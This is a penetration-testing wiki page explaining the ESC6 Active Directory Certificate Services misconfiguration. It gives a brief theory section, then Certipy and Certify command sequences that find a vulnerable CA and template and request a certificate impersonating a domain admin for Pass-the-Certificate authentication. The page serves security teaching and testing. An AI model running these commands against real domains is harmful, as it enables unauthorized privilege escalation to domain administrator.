 # CA configuration

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) found a domain escalation vector based on a dangerous CA setting (i.e. the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag). The escalation vector was dubbed [ESC6](https://posts.specterops.io/certified-pre-owned-d95910965cd2#2a56).

When the flag is set on the CA, templates configured for authentication (i.e. EKUs like Client Authentication, PKINIT Client Authentication, Smart Card Logon, Any Purpose (`OID 2.5.29.37.0`), or no EKU (`SubCA`)) and allowing low-priv users to enroll can be abused to authenticate as any other user/machine/admin.

{% hint style="success" %}
The default **User** template checks all the template requirements stated above.&#x20;

If the CA is configured with the  `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (admins tend to enable that flag without knowing the security implications), and the **User** template is enabled (which is very often), any user can escalate to domain admin.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate info about the CAs, including the "**User Specified SAN**" flag state which is an alias to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```python
certipy 'domain.local'/'user':'password'@'domaincontroller' find | grep "User Specified SAN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}

{% hint style="success" %}
Certipy's `auto` mode can also be used to automatically abuse a misconfigured CA.
{% endhint %}

The same "find" command can be used to enumerate information regarding the certificate templates (EKUs allowing for authentication, allowing low-priv users to enroll, etc.).

```bash
certipy 'domain.local'/'user':'password'@'domaincontroller' find
```

Once the right template is found (i.e. the default User template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```bash
certipy 'domain.local'/'user':'password'@'ca_server' req -ca 'ca_name' -template 'certificate template' -alt 'domain admin'
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used to enumerate info about the CAs, including the "**UserSpecifiedSAN**" flag state which refers to the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag.

```batch
Certify.exe cas
```

If the flag is enabled on a CA, certify can then be used to find all enabled templates configured with EKUs allowing for authentication, and allowing low-priv users to enroll.

```batch
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth
```

Once the right template is found (i.e. the default **User** template), a request shall be made to obtain a certificate, with another high-priv user set as SAN (`subjectAltName`).

```batch
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://posts.specterops.io/certified-pre-owned-d95910965cd2" %}

{% embed url="https://www.keyfactor.com/blog/hidden-dangers-certificate-subject-alternative-names-sans" %}
